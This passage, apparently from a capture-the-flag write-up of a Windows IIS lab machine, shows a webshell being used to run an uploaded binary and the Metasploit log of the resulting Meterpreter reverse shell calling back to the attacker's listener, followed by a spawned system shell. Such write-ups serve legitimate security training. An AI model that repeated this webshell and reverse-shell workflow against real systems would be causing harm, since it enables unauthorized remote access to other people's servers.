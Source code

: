 We find the winPEAS.bat and the reverse.exe files when we check the directory C:\inetpub\wwwroot with the webshell:

![ImgPlaceholder](screenshots/shell-uploaded.png)

We execute the shell.exe binary and we watch the Meterpreter reverse shell callback:

![ImgPlaceholder](screenshots/execute-shell.png)

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.27:4444 
^[[A[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.27:4444 -> 10.10.10.5:49165) at 2021-01-06 22:36:24 +0100

meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter > pwd
c:\windows\system32\inetsrv
meterpreter > shell                                                                                   
Process 2980 created.                                                                                 
Channel 1 created.                                                                                    
Microsoft Windows [Version 6.1.7600]                                                                  
```